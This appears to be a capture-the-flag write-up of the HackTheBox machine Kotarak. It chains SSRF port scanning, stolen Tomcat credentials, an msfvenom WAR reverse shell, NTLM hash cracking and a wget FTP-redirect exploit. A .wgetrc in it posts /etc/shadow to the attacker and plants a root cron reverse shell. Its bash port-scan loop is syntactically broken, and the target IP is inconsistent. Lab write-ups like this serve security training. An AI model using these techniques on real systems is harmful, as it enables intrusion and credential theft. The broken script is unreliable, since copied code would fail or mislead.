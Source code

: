 # Kotarak

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (159) (3).png" alt=""><figcaption></figcaption></figure>

Doing a detailed Nmap scan reveals a bit more about the services running on the machine.

<figure><img src="../../../.gitbook/assets/image (115) (1).png" alt=""><figcaption></figcaption></figure>

Port 8080 was running a Tomcat instance, and this might be the method used for a reverse shell via a malicious .war file. Port 60000 was also running some form of custom application.&#x20;

Credentials were required for port 8080:

<figure><img src="../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

### Private Browser

This port was hosting a private browser that takes a URL as a parameter.

<figure><img src="../../../.gitbook/assets/image (80) (1).png" alt=""><figcaption></figcaption></figure>

We can use this to get hits on our own HTTP server, but it does not seem to download files or anything. As such, there isn't much point on trying to host something on our machine. Instead, we can do SSRF and let this application **send requests to itself**. This would allow us to enumerate all ports that were open within the machine but not reachable from my Kali machine.

Using `curl` and a quick bash script, we can enumerate the ports that are open:

```bash
for i in {0..65535}; do
    cmd = $(curl -s http://10.10.10.55:60000/url.php?path=http://127.0.0.1:"${i}");
    echo -n "${i}: "; echo "$res"
    fi;
```

Eventually, we would start getting hits on the ports that are open.

### File Manager + Shell

Using this bash loop, we can find that there's a Simple File Viewer application open on port 888, that was unaccessible to us earlier.

<figure><img src="../../../.gitbook/assets/image (116) (1).png" alt=""><figcaption></figcaption></figure>

When viewing this page, we can see a few folders, but the most interesting would be the `backup` folder.

<figure><img src="../../../.gitbook/assets/image (118) (1).png" alt=""><figcaption></figcaption></figure>

Clicking on the links does not work at all as we don't actually have access to this service from our machine. However, we can attempt to read the files using SSRF through the private browser.

The links were structured like this:

```markup
<a href="?doc=on"  class="tableElement">
```

We can see that the `?doc` parameter was being used to access these links. We can then read the files by accessing `http://10.10.10.15:60000/url.php?path=127.0.0.1:888?doc=backup`.

This reveals to us a folder with the Tomcat credentials.

<figure><img src="../../../.gitbook/assets/image (82) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can acess port 8080 and login. Then, using `msfvenom`, we can generate a quick reverse shell to upload to gain a reverse shell easily.

<figure><img src="../../../.gitbook/assets/image (85) (3).png" alt=""><figcaption></figcaption></figure>

We would be the `tomcat` user on the machine.

## Privilege Escalation

### Windows Memory Dump

When viewing the `/home` directory, we can find another user present.

<figure><img src="../../../.gitbook/assets/image (89) (1).png" alt=""><figcaption></figcaption></figure>

The `tomcat` user also had some interesting files within their directory.

<figure><img src="../../../.gitbook/assets/image (93) (3).png" alt=""><figcaption></figcaption></figure>

The name of the file was a giveaway that this contained NTLM hashes from a memory dump of a Windows machine. As such, we can transfer this back to our machine and dump the credentials using `secretsdump.py`.

<figure><img src="../../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Then we can crack the Administrator's hash to get `f16tomcat!`. Afterwards, we can `su` to the `atanas` user with these credentials.

<figure><img src="../../../.gitbook/assets/image (97) (4).png" alt=""><figcaption></figcaption></figure>

### wget RCE

Interestingly, the `atanas` user can access the root directory and find a hint as to where the root flag is.

<figure><img src="../../../.gitbook/assets/image (117) (3).png" alt=""><figcaption></figcaption></figure>

Reading the `app.log` file reveals some interesting stuff.

<figure><img src="../../../.gitbook/assets/image (108) (3).png" alt=""><figcaption></figcaption></figure>

First thing to note was that there was another IP address at 10.0.3.133. Next, this was using `wget` 1.16, which was a vulnerable version of the binary. Lastly, take a look at the timestamps. Notice how they occur exactly after every 2 minutes? Perhaps this was a cronjob running in the background that we needed to exploit.&#x20;

There were scripts for the exploit available on Github:

{% embed url="https://github.com/xl7dev/Exploit/blob/master/Wget/wget-exploit.py" %}

How this script works is through exploiting the method of which `wget` interacts with an FTP server to download files. When `wget` sends a request to a website like `http://test.com/file.txt`, and the server responds with a **redirect** to `ftp://anothertest.com/anotherfile.txt`, `wget` will go get `anotherfile.txt` and save it as `anotherfile.txt`. This exploit can be used to tamper with the cronjobs that are running on the server, and we can use this to gain a reverse shell as the root user.

First, we would need to create a `.wgetrc` file:

```
post_file = /etc/shadow
output_document = /etc/cron.d/malicious-cron
```

Then, we can replace the command used in the script to a cronjob reverse shell by root.

<figure><img src="../../../.gitbook/assets/image (105) (1).png" alt=""><figcaption></figcaption></figure>

Then, we would need to set up a FTP server on our machine with these files using `python3`.

<figure><img src="../../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can attempt to test run the exploit and see that it returns a `socket.error`.

<figure><img src="../../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

Permission denied was an interesting error to get, as the script doesn't do anything out of the ordinary. Perhaps I was being blocked as I needed to access port 21, which typically requires superuser permissions.

We can use `authbind` to bypass this.

<figure><img src="../../../.gitbook/assets/image (96) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, the exploit should work by first extracting the `/etc/shadow` file (as specified in the `.wgetrc` file we made earlier, although this can be any file).

<figure><img src="../../../.gitbook/assets/image (79) (5) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would get a reverse shell on a listener port.

<figure><img src="../../../.gitbook/assets/image (107) (3).png" alt=""><figcaption></figcaption></figure>
